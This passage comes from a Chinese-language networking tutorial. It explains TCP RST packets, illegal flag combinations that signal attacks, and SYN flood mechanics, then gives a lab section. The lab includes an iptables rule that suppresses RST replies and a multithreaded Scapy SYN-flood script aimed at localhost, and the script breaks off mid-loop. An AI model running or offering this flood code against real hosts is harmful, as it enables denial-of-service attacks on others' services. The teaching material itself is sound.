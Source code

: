 #### 连接复位

四次握手不是关闭TCP连接的唯一方法。 有时，如果主机需要尽快关闭连接(或连接超时,端口或主机不可达)，RST (Reset)包将被发送。由于RST包不是TCP连接中的必须部分，可以只发送RST包(即不带ACK标记)。但在正常的TCP连接中RST包可以带ACK确认标记。RST包是可以不要收到方确认的。

#### 无效的TCP标记

到目前为止，你已经看到了 SYN，ACK，FIN，和RST 标记。 另外，还有PSH (Push) 和URG (Urgent)标记。
最常见的非法组合是SYN/FIN 包。注意:由于 SYN包是用来初始化连接的，它不可能和 FIN和RST标记一起出现。这也是一个恶意攻击。

由于现在大多数防火墙已知 SYN/FIN 包，别的一些组合，例如SYN/FIN/PSH，SYN/FIN/RST，SYN/FIN/RST/PSH。很明显，当网络中出现这种包时，很你的网络肯定受到攻击了。

别的已知的非法包有FIN (无ACK标记)和"NULL"包。如同早先讨论的，由于ACK/FIN包的出现是为了关闭一个TCP连接，那么正常的FIN包总是带有 ACK 标记。"NULL"包就是没有任何TCP标记的包(URG,ACK,PSH,RST,SYN,FIN都为0)。

到目前为止，正常的网络活动下，TCP协议栈不可能产生带有上面提到的任何一种标记组合的TCP包。当你发现这些不正常的包时，肯定有人对你的网络不怀好意。

#### SYN Flood

当开放了一个TCP端口后，该端口就处于Listening状态，不停地监视发到该端口的Syn报文，一 旦接收到Client发来的Syn报文，就需要为该请求分配一个TCB（Transmission Control Block），通常一个TCB至少需要280个字节，在某些操作系统中TCB甚至需要1300个字节，并返回一个SYN ACK命令，立即转为SYN-RECEIVED即半开连接状态，而某些操作系统在SOCK的实现上最多可开启512个半开连接（如Linux2.4.20 内核）。

从以上过程可以看到，如果恶意的向某个服务器端口发送大量的SYN包，则可以使服务器打开大量的半开连接，分配TCB，从而消耗大量的服务器资源，同时也使得正常的连接请求无法被相应。而攻击发起方的资源消耗相比较可忽略不计。

SYN Flood主要利用了TCP协议的三次握手，建立三次握手时，客户端向服务器先发一个SYN包，服务器回复一个SYN ACK，然后客户端再发一个ACK建立三次握手，但如果客户端只向服务器发一个SYN包的话，服务器在发送SYN ACK后就会等待客户端回复，这样的连接称为半开连接，攻击者向被攻击者发送大量的SYN包，在服务器上产生大量的半开连接从而使得正常的客户端无法建立连接。

### 实验

#### TCP SYN Flood

##### 设置iptables

如果主动发送`SYN`包而不发送最后的`ACK`包，操作系统会自动发送一个`RST`包，终止连接，这样不能占用半开连接，所以在攻击前要先用`iptables`设置防火墙规则，防止系统自动发送的`RST`包，设置如下:

```shell
iptables -A OUTPUT -p tcp --tcp-flags RST RST -d 1.1.1.1 -j DROP
```

##### 用scapy库编写测试脚本

设置好规则后就可以攻击了，这里使用`Scapy`包来写脚本，创建了`200`个线程，攻击一段时间后可以发现`127.0.0.1`的网页就会无响应了:

```python
from scapy.all import *
from time import sleep
import thread
import random

target = '127.0.0.1'
port = 80
threadnum = 200

def synflood(target, port):

    while True:
        x = random.randint(0, 65535)
        send(IP(dst = target)/TCP(dport = port, sport = x), verbose=0)

def attack(target, port):

    print "Start Attack..."
    for i in range(threadnum):
        thread.start_new_thread(synflood, (target, port))
    while True:
```